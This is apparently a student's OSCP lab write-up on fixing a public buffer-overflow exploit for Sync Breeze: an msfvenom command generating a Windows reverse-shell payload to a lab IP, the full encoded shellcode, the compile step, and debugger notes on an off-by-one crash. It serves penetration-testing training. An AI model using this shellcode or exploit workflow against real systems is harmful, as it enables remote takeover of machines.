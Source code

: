15.1.6.1

# 15.1.6.1
## 15.1.6.1.1. Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.

Generate our own payload (the bad characters were discovered during our previous working exploit)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 exitfunc=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with Encoding failed due to a bad character (index=51, char=0x0d)
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xfa\x97\x8e\xc9\x83\xee\xfc\xe2\xf4\x06\x7f\x0c\xc9\xfa\x97"
"\xee\x40\x1f\xa6\x4e\xad\x71\xc7\xbe\x42\xa8\x9b\x05\x9b\xee"
"\x1c\xfc\xe1\xf5\x20\xc4\xef\xcb\x68\x22\xf5\x9b\xeb\x8c\xe5"
"\xda\x56\x41\xc4\xfb\x50\x6c\x3b\xa8\xc0\x05\x9b\xea\x1c\xc4"
"\xf5\x71\xdb\x9f\xb1\x19\xdf\x8f\x18\xab\x1c\xd7\xe9\xfb\x44"
"\x05\x80\xe2\x74\xb4\x80\x71\xa3\x05\xc8\x2c\xa6\x71\x65\x3b"
"\x58\x83\xc8\x3d\xaf\x6e\xbc\x0c\x94\xf3\x31\xc1\xea\xaa\xbc"
"\x1e\xcf\x05\x91\xde\x96\x5d\xaf\x71\x9b\xc5\x42\xa2\x8b\x8f"
"\x1a\x71\x93\x05\xc8\x2a\x1e\xca\xed\xde\xcc\xd5\xa8\xa3\xcd"
"\xdf\x36\x1a\xc8\xd1\x93\x71\x85\x65\x44\xa7\xff\xbd\xfb\xfa"
"\x97\xe6\xbe\x89\xa5\xd1\x9d\x92\xdb\xf9\xef\xfd\x68\x5b\x71"
"\x6a\x96\x8e\xc9\xd3\x53\xda\x99\x92\xbe\x0e\xa2\xfa\x68\x5b"
"\x99\xaa\xc7\xde\x89\xaa\xd7\xde\xa1\x10\x98\x51\x29\x05\x42"
"\x19\xa3\xff\xff\x4e\x61\x8d\x41\xe6\xcb\xfa\x96\x35\x40\x1c"
"\xfd\x9e\x9f\xad\xff\x17\x6c\x8e\xf6\x71\x1c\x7f\x57\xfa\xc5"
"\x05\xd9\x86\xbc\x16\xff\x7e\x7c\x58\xc1\x71\x1c\x92\xf4\xe3"
"\xad\xfa\x1e\x6d\x9e\xad\xc0\xbf\x3f\x90\x85\xd7\x9f\x18\x6a"
"\xe8\x0e\xbe\xb3\xb2\xc8\xfb\x1a\xca\xed\xea\x51\x8e\x8d\xae"
"\xc7\xd8\x9f\xac\xd1\xd8\x87\xac\xc1\xdd\x9f\x92\xee\x42\xf6"
"\x7c\x68\x5b\x40\x1a\xd9\xd8\x8f\x05\xa7\xe6\xc1\x7d\x8a\xee"
"\x36\x2f\x2c\x6e\xd4\xd0\x9d\xe6\x6f\x6f\x2a\x13\x36\x2f\xab"
"\x88\xb5\xf0\x17\x75\x29\x8f\x92\x35\x8e\xe9\xe5\xe1\xa3\xfa"
"\xc4\x71\x1c";
```

## 15.1.6.1.2. Replace the original payload with the newly generated one.
Here is the replaced payload
![068a31d07e4d8642bd86dd3cb2297c4f.png](../../../_resources/066ea56e6a3144568467825644fac782.png)


## 15.1.6.1.3. Attach the debugger to the target process and set a breakpoint at the return address instruction.

Note the breakpoint at 0x10090c83
![c5c70c9956d39ffaecfa696699fa6c48.png](../../../_resources/7d57210f4de04f768e4aad55a7d61c72.png)


## 15.1.6.1.4. Compile the exploit and run it. Did you hit the breakpoint?

It compiles without error
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ ls -lah
total 2.5M
drwxr-xr-x  2 kali kali 4.0K Sep 26 17:33 .
drwxr-xr-x 12 kali kali 4.0K Sep 26 14:25 ..
-rw-r--r--  1 kali kali 4.9K Sep 26 17:28 42341.c
-rw-r--r--  1 kali kali 2.2M Sep 26 16:44 libspp.dll
-rwxr-xr-x  1 kali kali 287K Sep 26 17:33 syncbreeze_exploit.exe
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ 
```

However, we do not hit the breakpoint 0x10090c83. Instead it crashes at 0x9010090c, which is also the EIP register.
![f41f89bf3d3b67ba8b53104a12e095d0.png](../../../_resources/37c3d6b39d19475c9833569d3969d25f.png)

What happened? Inspect the stack window, you'll see we're off by one byte. Look at 0x01ab7450 and 0x01ab7454.
![33dcdac435c7535a217d5104eb7965c8.png](../../../_resources/2b070c1784a84ac885c0b2aeecddc6f8.png)






